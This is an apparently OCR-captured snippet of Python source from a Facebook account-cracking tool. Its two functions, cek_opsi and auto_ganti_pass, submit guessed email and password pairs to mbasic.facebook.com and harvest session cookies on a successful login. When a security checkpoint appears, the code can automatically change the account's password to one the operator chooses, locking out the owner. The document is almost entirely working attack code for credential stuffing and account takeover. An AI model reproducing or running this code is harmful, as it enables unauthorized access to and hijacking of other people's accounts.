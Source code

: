 
### Check Opsi
def cek_opsi(user,pw,format):
    _req_ses_ = requests.Session()
    try:cek_dev_opsi          = open('option_.txt','r').read()
    except:cek_dev_opsi       = 'null'
    try:_auto_change_pass_    = open('auto_ganti.txt','r').read()
    except:_auto_change_pass_ = 'Yes'
    try:cek_pilih_opsi        = open('muncul_opsi.txt','r').read()
    except:cek_pilih_opsi     = 'No'
    _req_ses_.headers.update({"Host":"mbasic.facebook.com","accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9","accept-encoding":"gzip, deflate","accept-language":"en-GB,en-US;q=0.9","referer":"https://mbasic.facebook.com/","user-agent":ua_xiaomi});_sop_dev_ = par(_req_ses_.get(host+"/login/?next&ref=dbl&fl&refid=8").text,"html.parser");_linkurl_ = _sop_dev_.find("form",{"method":"post"})
    for _cici_ in _sop_dev_("input"):data_1.update({_cici_.get("name"):_cici_.get("value")})
    data_1.update({"email":user,"pass":pw});_url_post_ = _req_ses_.post(host+_linkurl_.get("action"),data=data_1);_response_ = par(_url_post_.text, "html.parser")
    if "c_user" in _req_ses_.cookies.get_dict():
        if "your account has been locked" in _url_post_.text:pass
        else:_cookies_ = ''.join(_req_ses_.cookies.get_dict());_result_ok_ = "\r %s[%SUCCESSFULL%s] %s • %s%s%s          "%(H,P,H,user,pw,tahun(user),P);cek_apk(_result_ok_,cvt_cookies(_cookies_))
    elif "checkpoint" in _req_ses_.cookies.get_dict():
        _ratya_ = 0;jumlah_opsi  = [];_title_dev_ = re.findall("\<title>(.*?)<\/title>",str(_response_));link_2 = _response_.find("form",{"method":"post"});list_input = ['fb_dtsg','jazoest','checkpoint_data','submit[Continue]','nh']
        for _azimvau_ in _response_("input"):
            if _azimvau_.get("name") in list_input:data_2.update({_azimvau_.get("name"):_azimvau_.get("value")})
        _req_act_ = _req_ses_.post(host+link_2.get("action"),data=data_2);_response2_ = par(_req_act_.text,"html.parser");_check_opsi_  = [_salsabila_.text for _salsabila_ in _response2_.find_all("option")]
        if len(_check_opsi_)==0:
            if "Check the login details shown. Was it you?" in _title_dev_:
                if _auto_change_pass_ == 'Yes':change_pass(user,_req_ses_,_response_,link_2)
                else:
                    if cek_pilih_opsi == 'Yes':print(format);print('   %s• %sONE TAP ACCOUNT'%(H,P));print("")
                    else:print(format);print('   %s• %sONE TAP ACCOUNT'%(H,P))
            else:pass
        elif len(_check_opsi_)!=0:
            if cek_pilih_opsi == 'Yes':
                for _asu_ in range(len(_check_opsi_)):_ratya_ += 1;jumlah_opsi.append("\n     "+P+str(_asu_+1)+". "+_check_opsi_[_asu_]+" ")
                jumop = ('%s   HERE ARE %s OPTIONS : '%(P,str(len(jumlah_opsi))));print(format);print(jumop+"".join(jumlah_opsi));print("")
            else:print(format)
    else:
        if 'result' in cek_dev_opsi:print(format);print("%s   [%s!%s] %sPASSWORD HAS CHANGED :("%(P,M,P,M));print('')
        else:print(format)

### Ganti Password
def auto_ganti_pass(_piye_):
    while True:
        _gimana_ = _cici_azimvau_('%s [%s•%s] %sCHANGE ONE TAP ACCOUNT PASS? [Y/n] : '%(H,P,H,K))
        if _gimana_ in ['']:jalan('%s [%s!%s] %sINCORRECT CONTENT'%(M,P,M,P));menu()
        elif _gimana_ in ['1','01','001','y','Y']:
            open('auto_ganti.txt','w').write('Yes');_newpass_ = _cici_azimvau_('%s [%s•%s] %sENTER ONE TAP PASSWORD : '%(H,P,H,K))
            if len(_newpass_)<6:print('%s [%s!%s] %sSandi Minimal 6 Karakter'%(M,P,M,P));time.sleep(3);menu()
            else:open('_new_pass_.txt','w').write(_newpass_)
            if _piye_ == 'Yes':open('muncul_opsi.txt','w').write('Yes')
            elif _piye_ == 'No':open('muncul_opsi.txt','w').write('No')
            else:open('muncul_opsi.txt','w').write('No')